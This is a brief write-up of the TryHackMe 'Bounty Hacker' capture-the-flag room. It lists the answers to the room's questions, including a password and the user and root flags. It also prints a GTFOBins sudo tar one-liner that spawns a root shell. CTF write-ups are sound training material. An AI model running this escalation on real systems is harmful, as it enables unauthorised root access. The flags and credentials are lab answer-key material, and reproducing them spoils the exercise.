 undermouse, 31.10.2020
======================
[THM] Bounty Hacker
======================

```bash
export IP=10.10.133.27
```

#3 Who wrote the task list? 
## Answer
```
lin
```

#4 What service can you bruteforce with the text file found?
```
ssh
```

#5 User's password?
## Answer
```
RedDr4gonSynd1cat3
```

#6 user.txt
## Answer
```
THM{CR1M3_SyNd1C4T3}
```

#7 root.txt
Checked `sudo -l` and got `tar` allowed to run as superuser.

## From: https://gtfobins.github.io/gtfobins/tar/

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
   sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

## Answer
```
THM{80UN7Y_h4cK3r}
```